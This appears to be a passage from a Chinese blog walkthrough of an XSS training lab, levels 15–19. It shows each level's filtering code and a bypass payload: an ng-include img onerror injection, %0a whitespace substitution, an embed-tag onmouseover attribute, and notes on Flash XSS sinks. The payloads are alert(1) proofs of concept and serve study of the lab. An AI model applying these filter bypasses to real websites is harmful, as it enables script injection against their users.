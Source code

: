 看了大佬的博客才知道，是考察angular js中的ng-include问题，ng-include 指令用于包含外部的HTML文件。包含的内容将作为指定元素的子节点。ng-include属性的值可以是一个表达式，返回一个文件名。默认情况下，包含的文件需要包含在同一域名下。

构造`src='level1.php?name=<img src=x onerror=alert(1)>'`

## Level16

替换空格、Tab、/符号。

<pre class="wp-block-code"><code>$str = strtolower($_GET&#91;"keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "&lt;center>".$str5."&lt;/center>";</code></pre>

可以用%0a或%0d绕过。

<pre class="wp-block-code"><code>url/?keyword=&lt;img%0a
src=a%0a
onerror=alert(1)></code></pre>

## Level17

```
echo "<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
```

`<embed>`标签就是引入一个`swf文件`到浏览器端(火狐不支持swf)

<pre class="wp-block-code"><code>url/?arg01=1&arg02= onmouseover=alert(1)</code></pre>

## Level18

和上一题一样

## Less19

这一关涉及一种xss攻击手段叫做flash xss，学习参考<a rel="noreferrer noopener" href="https://cloud.tencent.com/developer/article/1089548" target="_blank" rel="nofollow" >https://cloud.tencent.com/developer/article/1089548</a>。要判断是否属于flash xss，需要对引用的swf文件进行反编译然后进行源码分析，安装<a rel="noreferrer noopener" href="https://github.com/jindrapetrik/jpexs-decompiler/releases/tag/version14.4.0" target="_blank" rel="nofollow" >https://github.com/jindrapetrik/jpexs-decompiler/releases/tag/version14.4.0</a>。

Flash产生的xss问题主要有两种方式：1、加载第三方资源；2、与javascript通信引发xss。

<p id="0x03-%E5%B8%B8%E8%A7%81Flash-xss%E5%88%86%E7%B1%BB%E6%80%BB%E7%BB%93">
  <strong>常见Flash xss危险函数总结</strong>
</p>

Flash提供相关的函数，可以执行js代码，`getURL`(AS2中支持)，`navigateToURL`(AS3中支持)。

`ExternalInterface.call`同样是一个Flash提供的可以执行js的接口函数， 它有两个参数，形如`ExternalInterface.call("函数名","参数1")`，Flash最后执行的JS代码是`try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }`。
